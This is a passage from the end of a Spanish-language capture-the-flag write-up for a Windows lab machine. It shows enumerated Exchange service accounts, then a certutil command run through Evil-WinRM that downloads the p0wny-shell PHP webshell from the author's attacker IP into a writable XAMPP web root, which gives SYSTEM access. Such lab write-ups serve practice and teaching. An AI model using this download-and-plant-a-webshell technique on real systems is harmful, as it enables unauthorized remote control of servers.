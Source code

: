 ~~~bash
index: 0x2079 RID: 0x46b acb: 0x00020011 Account: SM_6e9de17029164abdb  Name: E4E Encryption Store - Active     Desc: (null)
index: 0x2078 RID: 0x46a acb: 0x00020011 Account: SM_75554ef7137f41d68  Name: Microsoft Exchange Federation Mailbox     Desc: (null)
index: 0x2075 RID: 0x467 acb: 0x00020011 Account: SM_9326b57ae8ea44309  Name: Microsoft Exchange        Desc: (null)
index: 0x2076 RID: 0x468 acb: 0x00020011 Account: SM_b1b9e7f83082488ea  Name: Discovery Search Mailbox  Desc: (null)
index: 0x2074 RID: 0x466 acb: 0x00020011 Account: SM_bb030ff39b6c4a2db  Name: Microsoft Exchange        Desc: (null)
index: 0x2077 RID: 0x469 acb: 0x00020011 Account: SM_e5b6f3aed4da4ac98  Name: Microsoft Exchange Migration      Desc: (null)
~~~

- En pocas palabras, esto nos dice que los usuarios pueden listar información del administrador, pues vemos que aparece en la query recibida:
- Fui al directorio `\xampp\htdocs` que es donde está hosteado el servicio de correo (en el puerto 443) y me di cuenta de que teníamos permisos de escritura.
- Guardé un [script webshell](https://github.com/flozz/p0wny-shell/blob/master/shell.php) en mi equipo y lo descargué con ``certuti`` desde la máquina victima:

~~~powershell
*Evil-WinRM* PS C:\xampp\htdocs> certutil -urlcache -split -f "http://10.10.16.34/powny-shell.php" "pwnysh3ll.php"
****  Online  ****
  0000  ...
  4f61
CertUtil: -URLCache command completed successfully.
~~~

 - Ahora solo fue cuestión de dirigirnos a la url que contenía este recurso y acceder como ``Authority System``.

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/857f0a3a-c075-4c25-9af9-6d93cf9e4a03)

- Y así concluimos esta máquina, bastante entretenida y muy util para practicar conceptos básicos e intermedios en un entorno híbrido.